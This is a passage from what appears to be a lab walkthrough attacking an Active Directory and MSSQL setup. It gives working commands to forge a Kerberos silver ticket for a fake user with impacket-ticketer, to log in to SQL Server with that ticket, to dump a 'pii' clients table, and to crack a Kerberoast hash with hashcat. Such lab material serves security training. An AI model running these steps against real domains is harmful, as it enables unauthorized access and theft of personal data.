 **Switch to `pii` DB:**

```sql
use pii;
SELECT * FROM INFORMATION_SCHEMA.TABLES;
select * from clients;
```

## 7. Another Silver Ticket (Fake User)

**Create Ticket for Fake User:**

```bash
impacket-ticketer -domain hirapo.com -domain-sid S-1-5-21-3665665769-2465453898-254577537 -dc-ip dc.hirapo.com -nthash 65da88fb215c0ca9d556eea07fb47ab5 -spn MSSQLSvc/sql01.hirapo.com -user-id 777 pwned
```

**Set Ticket and Connect:**

```bash
export KRB5CCNAME=pwned.ccache
impacket-mssqlclient -k -no-pass sql01.hirapo.com
```

**Check SID:**

```sql
use pii;
select dbo.fn_SIDToString(SUSER_SID());
```

**Verify User Does Not Exist:**

```sql
EXEC xp_logininfo 'hirapo\pwned','all';
```

## 8. Cracking Another Account

**Check `sqlservice2` Info:**

```sql
EXEC xp_logininfo 'hirapo\sqlservice2','all';
```

**Crack Another Password:**

```bash
hashcat -m 13100 spns.txt -a 6 /opt/passwordlists/google-10000-english-no-swears.txt ?d?s
```

**Result:** `Database2!`

---

## Conclusions

This lab demonstrated:
